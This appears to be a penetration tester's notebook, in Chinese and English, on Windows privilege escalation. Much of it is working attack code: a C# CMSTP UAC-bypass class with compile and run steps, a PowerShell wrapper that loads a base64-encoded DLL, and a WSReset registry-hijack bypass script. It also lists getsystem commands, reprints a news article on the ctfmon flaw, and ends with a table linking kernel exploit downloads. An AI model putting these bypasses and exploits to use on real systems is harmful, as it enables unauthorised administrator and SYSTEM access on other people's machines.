UAC Bypass using CMSTP.exe microsoft binary

Based on previous work from Oddvar Moe

https://oddvar.moe/2017/08/15/research-on-cmstp-exe/

And this PowerShell script of Tyler Applebaum

https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1

Code author: Andre Marques (\@_zc00l)

\*/

using System;

using System.Text;

using System.IO;

using System.Diagnostics;

using System.ComponentModel;

using System.Windows;

using System.Runtime.InteropServices;

public class CMSTPBypass

{

// Our .INF file data!

public static string InfData = \@"[version]

Signature=\$chicago\$

AdvancedINF=2.5

[DefaultInstall]

CustomDestination=CustInstDestSectionAllUsers

RunPreSetupCommands=RunPreSetupCommandsSection

[RunPreSetupCommandsSection]

; Commands Here will be run Before Setup Begins to install

REPLACE_COMMAND_LINE

taskkill /IM cmstp.exe /F

[CustInstDestSectionAllUsers]

49000,49001=AllUSer_LDIDSection, 7

[AllUSer_LDIDSection]

""HKLM"", ""SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\App
Paths\\CMMGR32.EXE"", ""ProfileInstallPath"", ""%UnexpectedError%"", """"

[Strings]

ServiceName=""CorpVPN""

ShortSvcName=""CorpVPN""

";

[DllImport("user32.dll")] public static extern bool ShowWindow(IntPtr hWnd, int
nCmdShow);

[DllImport("user32.dll", SetLastError = true)] public static extern bool
SetForegroundWindow(IntPtr hWnd);

public static string BinaryPath = "c:\\\\windows\\\\system32\\\\cmstp.exe";

/\* Generates a random named .inf file with command to be executed with UAC
privileges \*/

public static string SetInfFile(string CommandToExecute)

{

string RandomFileName = Path.GetRandomFileName().Split(Convert.ToChar("."))[0];

string TemporaryDir = "C:\\\\windows\\\\temp";

StringBuilder OutputFile = new StringBuilder();

OutputFile.Append(TemporaryDir);

OutputFile.Append("\\\\");

OutputFile.Append(RandomFileName);

OutputFile.Append(".inf");

StringBuilder newInfData = new StringBuilder(InfData);

newInfData.Replace("REPLACE_COMMAND_LINE", CommandToExecute);

File.WriteAllText(OutputFile.ToString(), newInfData.ToString());

return OutputFile.ToString();

}

public static bool Execute(string CommandToExecute)

{

if(!File.Exists(BinaryPath))

{

Console.WriteLine("Could not find cmstp.exe binary!");

return false;

}

StringBuilder InfFile = new StringBuilder();

InfFile.Append(SetInfFile(CommandToExecute));

Console.WriteLine("Payload file written to " + InfFile.ToString());

ProcessStartInfo startInfo = new ProcessStartInfo(BinaryPath);

startInfo.Arguments = "/au " + InfFile.ToString();

startInfo.UseShellExecute = false;

Process.Start(startInfo);

IntPtr windowHandle = new IntPtr();

windowHandle = IntPtr.Zero;

do {

windowHandle = SetWindowActive("cmstp");

} while (windowHandle == IntPtr.Zero);

System.Windows.Forms.SendKeys.SendWait("{ENTER}");

return true;

}

public static IntPtr SetWindowActive(string ProcessName)

{

Process[] target = Process.GetProcessesByName(ProcessName);

if(target.Length == 0) return IntPtr.Zero;

target[0].Refresh();

IntPtr WindowHandle = new IntPtr();

WindowHandle = target[0].MainWindowHandle;

if(WindowHandle == IntPtr.Zero) return IntPtr.Zero;

SetForegroundWindow(WindowHandle);

ShowWindow(WindowHandle, 5);

return WindowHandle;

}

}

To compile it, use the following syntax, in a PowerShell shell that is in the
same directory as this source.

Add-Type -TypeDefinition ([IO.File]::ReadAllText("\$pwd\\Source.cs"))
-ReferencedAssemblies "System.Windows.Forms" -OutputAssembly
"CMSTP-UAC-Bypass.dll"

[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("\$pwd\\CMSTP-UAC-Bypass.dll"))

[CMSTPBypass]::Execute("C:\\Windows\\System32\\cmd.exe")

Weaponizing with PowerShell

Now we go to automation. To create a PowerShell script to exploit this
technique, I have used the same old DLL reflection that I always like to use.

function Bypass-UAC

{

Param(

[Parameter(Mandatory = \$true, Position = 0)]

[string]\$Command

)

if(-not ([System.Management.Automation.PSTypeName]'CMSTPBypass').Type)

{

[Reflection.Assembly]::Load([Convert]::FromBase64String("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QnlwYXNzLmRsbABDTVNUUEJ5cGFzcwBtc2NvcmxpYgBTeXN0ZW0AT2JqZWN0AEluZkRhdGEAU2hvd1dpbmRvdwBTZXRGb3JlZ3JvdW5kV2luZG93AEJpbmFyeVBhdGgAU2V0SW5mRmlsZQBFeGVjdXRlAFNldFdpbmRvd0FjdGl2ZQAuY3RvcgBoV25kAG5DbWRTaG93AENvbW1hbmRUb0V4ZWN1dGUAUHJvY2Vzc05hbWUAU3lzdGVtLlJ1bnRpbWUuQ29tcGlsZXJTZXJ2aWNlcwBDb21waWxhdGlvblJlbGF4YXRpb25zQXR0cmlidXRlAFJ1bnRpbWVDb21wYXRpYmlsaXR5QXR0cmlidXRlAENNU1RQLVVBQy1CeXBhc3MAU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzAERsbEltcG9ydEF0dHJpYnV0ZQB1c2VyMzIuZGxsAFN5c3RlbS5JTwBQYXRoAEdldFJhbmRvbUZpbGVOYW1lAENoYXIAQ29udmVydABUb0NoYXIAU3RyaW5nAFNwbGl0AFN5c3RlbS5UZXh0AFN0cmluZ0J1aWxkZXIAQXBwZW5kAFJlcGxhY2UAVG9TdHJpbmcARmlsZQBXcml0ZUFsbFRleHQARXhpc3RzAENvbnNvbGUAV3JpdGVMaW5lAENvbmNhdABTeXN0ZW0uRGlhZ25vc3RpY3MAUHJvY2Vzc1N0YXJ0SW5mbwBzZXRfQXJndW1lbnRzAHNldF9Vc2VTaGVsbEV4ZWN1dGUAUHJvY2VzcwBTdGFydABJbnRQdHIAWmVybwBvcF9FcXVhbGl0eQBTeXN0ZW0uV2luZG93cy5Gb3JtcwBTZW5kS2V5cwBTZW5kV2FpdABHZXRQcm9jZXNzZXNCeU5hbWUAUmVmcmVzaABnZXRfTWFpbldpbmRvd0hhbmRsZQAuY2N0b3IAAAMuAAAfQwA6AFwAdwBpAG4AZABvAHcAcwBcAHQAZQBtAHAAAANcAAAJLgBpAG4AZgAAKVIARQBQAEwAQQBDAEUAXwBDAE8ATQBNAEEATgBEAF8ATABJAE4ARQAAQUMAbwB1AGwAZAAgAG4AbwB0ACAAZgBpAG4AZAAgAGMAbQBzAHQAcAAuAGUAeABlACAAYgBpAG4AYQByAHkAIQAAMVAAYQB5AGwAbwBhAGQAIABmAGkAbABlACAAdwByAGkAdAB0AGUAbgAgAHQAbwAgAAAJLwBhAHUAIAAAC2MAbQBzAHQAcAAAD3sARQBOAFQARQBSAH0AAISPWwB2AGUAcgBzAGkAbwBuAF0ADQAKAFMAaQBnAG4AYQB0AHUAcgBlAD0AJABjAGgAaQBjAGEAZwBvACQADQAKAEEAZAB2AGEAbgBjAGUAZABJAE4ARgA9ADIALgA1AA0ACgANAAoAWwBEAGUAZgBhAHUAbAB0AEkAbgBzAHQAYQBsAGwAXQANAAoAQwB1AHMAdABvAG0ARABlAHMAdABpAG4AYQB0AGkAbwBuAD0AQwB1AHMAdABJAG4AcwB0AEQAZQBzAHQAUwBlAGMAdABpAG8AbgBBAGwAbABVAHMAZQByAHMADQAKAFIAdQBuAFAAcgBlAFMAZQB0AHUAcABDAG8AbQBtAGEAbgBkAHMAPQBSAHUAbgBQAHIAZQBTAGUAdAB1AHAAQwBvAG0AbQBhAG4AZABzAFMAZQBjAHQAaQBvAG4ADQAKAA0ACgBbAFIAdQBuAFAAcgBlAFMAZQB0AHUAcABDAG8AbQBtAGEAbgBkAHMAUwBlAGMAdABpAG8AbgBdAA0ACgA7ACAAQwBvAG0AbQBhAG4AZABzACAASABlAHIAZQAgAHcAaQBsAGwAIABiAGUAIAByAHUAbgAgAEIAZQBmAG8AcgBlACAAUwBlAHQAdQBwACAAQgBlAGcAaQBuAHMAIAB0AG8AIABpAG4AcwB0AGEAbABsAA0ACgBSAEUAUABMAEEAQwBFAF8AQwBPAE0ATQBBAE4ARABfAEwASQBOAEUADQAKAHQAYQBzAGsAawBpAGwAbAAgAC8ASQBNACAAYwBtAHMAdABwAC4AZQB4AGUAIAAvAEYADQAKAA0ACgBbAEMAdQBzAHQASQBuAHMAdABEAGUAcwB0AFMAZQBjAHQAaQBvAG4AQQBsAGwAVQBzAGUAcgBzAF0ADQAKADQAOQAwADAAMAAsADQAOQAwADAAMQA9AEEAbABsAFUAUwBlAHIAXwBMAEQASQBEAFMAZQBjAHQAaQBvAG4ALAAgADcADQAKAA0ACgBbAEEAbABsAFUAUwBlAHIAXwBMAEQASQBEAFMAZQBjAHQAaQBvAG4AXQANAAoAIgBIAEsATABNACIALAAgACIAUwBPAEYAVABXAEEAUgBF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AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAgAAAMAAAA0D4AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"))
\| Out-Null

}

[CMSTPBypass]::Execute(\$Command)

}

**UAC-TokenMagic.ps1 Bypass UAC(已复现):**

https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/UAC-TokenMagic.ps1

SOMETHING WEIRD:

**ctfmon windows vulnerabilities(已复现):**

https://github.com/taviso/ctftool/releases

Update — With this month's patch Tuesday updates, Microsoft has finally
addressed this vulnerability, tracked as CVE-2019-1162, by correcting how the
Windows operating system handles calls to Advanced Local Procedure Call (ALPC).

A Google security researcher has just disclosed details of a 20-year-old
unpatched high-severity vulnerability affecting all versions of Microsoft
Windows, back from Windows XP to the latest Windows 10.

The vulnerability resides in the way MSCTF clients and server communicate with
each other, allowing even a low privileged or a sandboxed application to read
and write data to a higher privileged application.

MSCTF is a module in Text Services Framework (TSF) of the Windows operating
system that manages things like input methods, keyboard layouts, text
processing, and speech recognition.

In a nutshell, when you log in to your Windows machine, it starts a CTF monitor
service that works as a central manager to handle communications between all
clients, which are actually windows for each process running on the same
session, through an ALPC (advanced local procedure call) port.

"You might have noticed the ctfmon service in task manager, it is responsible
for notifying applications about changes in keyboard layout or input methods.
The kernel forces applications to connect to the ctfmon service when they start,
and then exchange messages with other clients and receive notifications from the
service," the researcher explained.

Tavis Ormandy from Google's Project Zero Team discovered that since there is no
access control or any kind of authentication in place for this interaction, any
application, any user and even sandboxed processes can:

>   connect to ctfmon ALPC port across all sessions,

>   read and write the text of any window, from any other session,

>   fake their thread id, process id, and HWND,

>   pretend as a CTF service, tricking other applications, even privileged ones,
>   to connect to it, or

>   escape from sandboxes and escalate privileges.

"There is no access control in CTF, so you could connect to another user's
active session and take over any application, or wait for an Administrator to
login and compromise their session," Ormandy explains in a blog post published
today.

https://googleprojectzero.blogspot.com/2019/08/down-rabbit-hole.html

"It turns out it was possible to reach across sessions and violate NT security
boundaries for nearly twenty years, and nobody noticed."

实验:

\#1):

\#2):

补丁:

If exploited, the weakness in CTF protocol could allow attackers to easily
bypass User Interface Privilege Isolation (UIPI), letting even an unprivileged
process to:

>   read sensitive text from any window of other applications, including
>   passwords out of dialog boxes,

>   gain SYSTEM privileges,

>   take control of the UAC consent dialog,

>   send commands to the administrator's console session, or

>   escape IL/AppContainer sandboxes by sending input to unsandboxed windows.

Besides this, CTF protocol reportedly also contain many memory corruption flaws
that, according to the researcher, can be exploited in a default configuration.

"Even without bugs, the CTF protocol allows applications to exchange input and
read each other's content. However, there are a lot of protocol bugs that allow
taking complete control of almost any other application. It will be interesting
to see how Microsoft decides to modernize the protocol," Ormandy says.

The researcher has also released a custom open-source "CTF Exploration Tool" on
Github that he developed and used to discover many critical security issues in
the Windows CTF protocol.

Ormandy responsibly reported his findings to Microsoft in mid-May this year and
released the details to the public today after Microsoft failed to address the
issue within 90 days of being notified.

**Bypass UAC后进行getsystem(已复现):**

https://demonsec666.oss-cn-qingdao.aliyuncs.com/%E9%9C%80%E8%BF%87UAC-getsystem.zip

1.meterpreter\> getsystem

2.Tokenvator.exe getsystem cmd.exe

3.incognito.exe execute -c "NT AUTHORITY\\SYSTEM" cmd.exe

4.psexec -s -i cmd.exe

5.python getsystem.py

https://raw.githubusercontent.com/sailay1996/tokenx_privEsc/master/getsystem.py

python2.7 getsystem.py

**Fileless UAC Bypass by Abusing Shell
API-WSReset-uac(未复现):需关闭win10自带防御程序**

This exploits a flaw in the WSReset.exe file associated with the WindowsStore.

This binary has autoelevate privs, and it will run a binary filecontained in a
low-privilege registry location. By placing a link to the binary in the registry
location, WSReset.exe will launch the binary as a privileged user.

\<\#

.SYNOPSIS

Fileless UAC Bypass by Abusing Shell API

Author: Hashim Jawad of ACTIVELabs

.PARAMETER Command

Specifies the command you would like to run in high integrity context.

.EXAMPLE

Invoke-WSResetBypass -Command "C:\\Windows\\System32\\cmd.exe /c start cmd.exe"

This will effectivly start cmd.exe in high integrity context.

.NOTES

This UAC bypass has been tested on the following:

\- Windows 10 Version 1803 OS Build 17134.590

\- Windows 10 Version 1809 OS Build 17763.316

\#\>

function Invoke-WSResetBypass {

Param (

[String]\$Command = "C:\\Windows\\System32\\cmd.exe /c start cmd.exe"

)

\$CommandPath =
"HKCU:\\Software\\Classes\\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\\Shell\\open\\command"

\$filePath =
"HKCU:\\Software\\Classes\\AppX82a6gwre4fdg3bt635tn5ctqjf8msdd2\\Shell\\open\\command"

New-Item \$CommandPath -Force \| Out-Null

New-ItemProperty -Path \$CommandPath -Name "DelegateExecute" -Value "" -Force \|
Out-Null

Set-ItemProperty -Path \$CommandPath -Name "(default)" -Value \$Command -Force
-ErrorAction SilentlyContinue \| Out-Null

Write-Host "[+] Registry entry has been created successfully!"

\$Process = Start-Process -FilePath "C:\\Windows\\System32\\WSReset.exe"
-WindowStyle Hidden

Write-Host "[+] Starting WSReset.exe"

Write-Host "[+] Triggering payload.."

Start-Sleep -Seconds 5

if (Test-Path \$filePath) {

Remove-Item \$filePath -Recurse -Force

Write-Host "[+] Cleaning up registry entry"

}

}

**\#4). Windows内核漏洞利用:**

**ATT&CK: Privilege Escalation-5).Windows内核漏洞利用**

cmd枚举已安装补丁并找出与提权相关缺失的补丁:

wmic qfe get Caption,Description,HotFixID,InstalledOn \| findstr /C:"KB3136041"
/C:"KB4018483"

识别缺失补丁方法:

1.通过msf识别

post/windows/gather/enum_patches

2.通过Windows Exploit Suggester工具识别

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

3.通过powershell脚本识别

https://github.com/rasta-mouse/Sherlock

4.通过漏洞编号搜索EXP:

github

exploitdb

metasploit官网

Privilege Escalation Table

| **Operating System**                                                         | **Description**             | **Security Bulletin**                                                          | **KB**  | **Exploit**                                                                                                                                                                                                                                                                                                        |
|------------------------------------------------------------------------------|-----------------------------|--------------------------------------------------------------------------------|---------|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Windows Server 2016                                                          | Windows Kernel Mode Drivers | [MS16-135](https://technet.microsoft.com/en-us/library/security/ms16-135.aspx) | 3199135 | [Exploit](https://github.com/mwrlabs/CVE-2016-7255) [Github](https://github.com/FuzzySecurity/PSKernel-Primitives/blob/master/Sample-Exploits/MS16-135/MS16-135.ps1)                                                                                                                                               |
| Windows Server 2008 ,7,8,10 Windows Server 2012                              | Secondary Logon Handle      | [MS16-032](https://technet.microsoft.com/en-us/library/security/ms16-032.aspx) | 3143141 |  [GitHub](https://github.com/khr0x40sh/ms16-032) [ExploitDB](https://www.exploit-db.com/exploits/39719/) [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms16_032_secondary_logon_handle_privesc)                                                                                             |
| Windows Server 2008, Vista, 7                                                | WebDAV                      | [MS16-016](https://technet.microsoft.com/en-us/library/security/ms16-016.aspx) | 3136041 | [Github](https://github.com/koczkatamas/CVE-2016-0051)                                                                                                                                                                                                                                                             |
| Windows Server 2003, Windows Server 2008, Windows 7, Windows 8, Windows 2012 | Windows Kernel Mode Drivers | [MS15-051](https://technet.microsoft.com/en-us/library/security/ms15-051.aspx) | 3057191 | [GitHub](https://github.com/hfiref0x/CVE-2015-1701/raw/master/Compiled/Taihou32.exe) [ExploitDB](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/37049-32.exe) [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms15_051_client_copy_image)              |
| Windows Server 2003, Windows Server 2008, Windows Server 2012, 7, 8          | Win32k.sys                  | [MS14-058](https://technet.microsoft.com/en-us/library/security/ms14-058.aspx) | 3000061 | [GitHub](https://github.com/sam-b/CVE-2014-4113) [ExploitDB](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/39666.zip) [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms14_058_track_popup_menu)                                                      |
| Windows Server 2003, Windows Server 2008, 7, 8, Windows Server 2012          | AFD Driver                  | [MS14-040](https://technet.microsoft.com/en-us/library/security/ms14-040.aspx) | 2975684 | [Python](http://bhafsec.com/files/windows/MS14-40-x32.py) [EXE](http://bhafsec.com/files/windows/MS14-40-x32.exe) [ExploitDB](https://www.exploit-db.com/exploits/39446/) [Github](https://github.com/JeremyFetiveau/Exploits/blob/master/MS14-040.cpp)                                                            |
| Windows XP, Windows Server 2003                                              | Windows Kernel              | [MS14-002](https://technet.microsoft.com/en-us/library/security/ms14-002.aspx) | 2914368 | [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms_ndproxy)                                                                                                                                                                                                                                   |
| Windows Server 2003, Windows Server 2008, 7, 8, Windows Server 2012          | Kernel Mode Driver          | [MS13-005](https://technet.microsoft.com/en-us/library/security/ms13-005.aspx) | 2778930 | [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms13_005_hwnd_broadcast) [ExploitDB](https://www.exploit-db.com/exploits/24485/) [GitHub](https://github.com/0vercl0k/stuffz/blob/master/ms13-005-funz-poc.cpp)                                                                               |
| Windows Server 2008, 7                                                       | Task Scheduler              | [MS10-092](https://technet.microsoft.com/en-us/library/security/ms10-092.aspx) | 2305420 | [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_092_schelevator) [ExploitDB](https://www.exploit-db.com/exploits/15589/)                                                                                                                                                                 |
| Windows Server 2003, Windows Server 2008, 7, XP                              |  KiTrap0D                   | [MS10-015](https://technet.microsoft.com/en-us/library/security/ms10-015.aspx) | 977165  | [Exploit](http://bhafsec.com/files/windows/KiTrap0d.zip) [ExploitDB](https://www.exploit-db.com/exploits/11199/) [GitHub](https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/11199.zip) [Metasploit](https://www.rapid7.com/db/modules/exploit/windows/local/ms10_015_kitrap0d) |
| Windows Server 2003, XP                                                      | NDProxy                     | [MS14-002](https://technet.microsoft.com/en-us/library/security/ms14-002.aspx) | 2914368 | [Exploit](http://bhafsec.com/files/windows/MS14-002.exe) [ExploitDB](https://www.exploit-db.com/exploits/30014/) [ExploitDB](https://www.exploit-db.com/exploits/37732/) [Github](https://github.com/dev-zzo/exploits-nt-privesc/blob/master/MS14-002/MS14-002.c)                                                  |
